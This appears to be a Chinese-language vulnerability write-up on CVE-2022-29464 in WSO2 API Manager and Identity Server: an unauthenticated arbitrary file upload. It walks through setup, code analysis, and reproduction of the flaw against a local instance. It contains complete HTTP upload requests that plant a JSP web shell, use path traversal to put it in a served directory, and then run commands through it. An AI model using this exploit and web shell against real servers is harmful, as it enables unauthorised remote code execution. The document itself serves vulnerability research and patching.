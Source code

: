 # WSO2 fileupload 任意文件上传漏洞 CVE-2022-29464

## 漏洞描述

CVE-2022-29464 是 Orange Tsai发现的 WSO2 上的严重漏洞。该漏洞是一种未经身份验证的无限制任意文件上传，允许未经身份验证的攻击者通过上传恶意 JSP 文件在 WSO2 服务器上获得 RCE。

## 漏洞影响

<a-checkbox checked>WSO2 API Manager 2.2.0 and above</a-checkbox></br>

<a-checkbox checked>WSO2 Identity Server 5.2.0 and above</a-checkbox></br>

<a-checkbox checked>WSO2 Identity Server Analytics 5.4.0, 5.4.1, 5.5.0, 5.6.0</a-checkbox></br>

<a-checkbox checked>WSO2 Identity Server as Key Manager 5.3.0 and above</a-checkbox></br>

<a-checkbox checked>WSO2 Enterprise Integrator 6.2.0 and above</a-checkbox></br>

## 环境搭建

[https://github.com/wso2/product-apim/releases/download/v4.0.0/wso2am-4.0.0.zip](https://github.com/wso2/product-apim/releases/download/v4.0.0/wso2am-4.0.0.zip)

[https://github.com/wso2/product-apim/archive/refs/tags/v4.0.0.zip](https://github.com/wso2/product-apim/archive/refs/tags/v4.0.0.zip)

## 漏洞复现

下载 releases 后进入 bin目录, 执行 api.manager.sh文件，并开启 debug 方便远程调试

![img](/assets/PeiQi-Wiki/img/1650767358343-2616cdd3-9166-4445-ad9a-4ea0277e1736.png)

打开 product-apim-4.0.0 ，下载依赖，连接Debug进行调试分析

![img](/assets/PeiQi-Wiki/img/1650804508335-ad372814-53fb-4c65-bb31-6197790a97a5.png)

运行后访问 localhost:9443 出现如下即搭建完成![img](/assets/PeiQi-Wiki/img/1650767529092-33b5d581-f964-4f82-a614-29584a71b160.png)

在配置文件 identity.xml 中我们可以看到 路由 `/fileupload` 中不存在权限鉴定,  对应的 Servlet 为 FileUploadServlet

![img](/assets/PeiQi-Wiki/img/1650801767796-769caf29-8c4c-4b39-940d-f8cdb15f089d.png)

文件上传为POST请求，对应的处理方法为 `doPost (org.wso2.carbon.ui.transports.FileUploadServlet#doPost)`

```java
protected void doPost(HttpServletRequest request,
                          HttpServletResponse response) throws ServletException, IOException {

        try {
            fileUploadExecutorManager.execute(request, response);
        } catch (Exception e) {
            String msg = "File upload failed ";
            log.error(msg, e);
            throw new ServletException(e);
        }
    }
```

继续向下，略过调用方法的过程

```java
execute:55, ToolsAnyFileUploadExecutor (org.wso2.carbon.ui.transports.fileupload)
executeGeneric:104, AbstractFileUploadExecutor (org.wso2.carbon.ui.transports.fileupload)
execute:436, FileUploadExecutorManager$CarbonXmlFileUploadExecHandler (org.wso2.carbon.ui.transports.fileupload)
startExec:320, FileUploadExecutorManager$FileUploadExecutionHandlerManager (org.wso2.carbon.ui.transports.fileupload)
execute:127, FileUploadExecutorManager (org.wso2.carbon.ui.transports.fileupload)
```

![img](/assets/PeiQi-Wiki/img/1650801837586-39bf1075-e0d5-4932-a808-e7f0e397b164.png)

![img](/assets/PeiQi-Wiki/img/1650802004637-1ac012b2-2978-41cb-bf15-13c863457ee3.png)

最后来到出现漏洞的位置 `org.wso2.carbon.ui.transports.fileupload.ToolsAnyFileUploadExecutor#execute`

这里我们构造请求包，上传文件

```java
POST /fileupload/toolsAny HTTP/1.1
Host: localhost:9443
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 729
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0

--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="1.jsp"; filename="1.jsp"

<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```

![img](/assets/PeiQi-Wiki/img/1650803224176-dbe2a392-a7b5-468a-bc6f-da381ffe0d49.png)

上传时文件名为 1.jsp，成功上传目标会返回 uuid 值, 调试过程中我们可以发现文件被上传在某个目录下

![img](/assets/PeiQi-Wiki/img/1650803654297-7c813794-2c58-4f63-aa8d-fac097a5bb90.png)

```php
public class ToolsAnyFileUploadExecutor extends AbstractFileUploadExecutor {

	@Override
	public boolean execute(HttpServletRequest request,
			HttpServletResponse response) throws CarbonException, IOException {
		PrintWriter out = response.getWriter();
        try {
        	Map fileResourceMap =
                (Map) configurationContext
                        .getProperty(ServerConstants.FILE_RESOURCE_MAP);
        	if (fileResourceMap == null) {
        		fileResourceMap = new TreeBidiMap();
        		configurationContext.setProperty(ServerConstants.FILE_RESOURCE_MAP,
                                             fileResourceMap);
        	}
            List<FileItemData> fileItems = getAllFileItems();
            //String filePaths = "";

            for (FileItemData fileItem : fileItems) {
                String uuid = String.valueOf(
                        System.currentTimeMillis() + Math.random());
                String serviceUploadDir =
                        configurationContext
                                .getProperty(ServerConstants.WORK_DIR) +
                                File.separator +
                                "extra" + File
                                .separator +
                                uuid + File.separator;
                File dir = new File(serviceUploadDir);
                if (!dir.exists()) {
                    dir.mkdirs();
                }
                File uploadedFile = new File(dir, fileItem.getFileItem().getFieldName());
                try (FileOutputStream fileOutStream = new FileOutputStream(uploadedFile)) {
                    fileItem.getDataHandler().writeTo(fileOutStream);
                    fileOutStream.flush();
                }
                response.setContentType("text/plain; charset=utf-8");
                //filePaths = filePaths + uploadedFile.getAbsolutePath() + ",";
                fileResourceMap.put(uuid, uploadedFile.getAbsolutePath());
                out.write(uuid);
            }
            //filePaths = filePaths.substring(0, filePaths.length() - 1);
            //out.write(filePaths);
            out.flush();
        } catch (Exception e) {
            log.error("File upload FAILED", e);
            out.write("<script type=\"text/javascript\">" +
                    "top.wso2.wsf.Util.alertWarning('File upload FAILED. File may be non-existent or invalid.');" +
                    "</script>");
        } finally {
            out.close();
        }
        return true;
	}

}
```

![img](/assets/PeiQi-Wiki/img/1650803736519-90e242b2-1478-4966-8bc5-5ef86402537c.png)

但文件名是我们可控的，拼接的过程中我们通过控制文件名遍历目录，将文件上传到我们需要的位置,  查找可以解析 jsp文件的目录 

![img](/assets/PeiQi-Wiki/img/1650803934233-733ce8ed-97da-4ece-acbf-c535d4704b34.png)

构造请求包，通过控制文件名的方法上传至该目录中

```java
POST /fileupload/toolsAny HTTP/1.1
Host: localhost:9443
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 729
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0

--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"; filename="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"

<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```

![img](/assets/PeiQi-Wiki/img/1650804126298-f5cf8a01-075b-4c27-889a-8ba2eb5664ab.png)

访问上传的文件，`/authenticationendpoint/xxx.jsp?cmd=ls`

![img](/assets/PeiQi-Wiki/img/1650804305810-0c37ec79-0f9d-4eaa-9908-c223dca40471.png)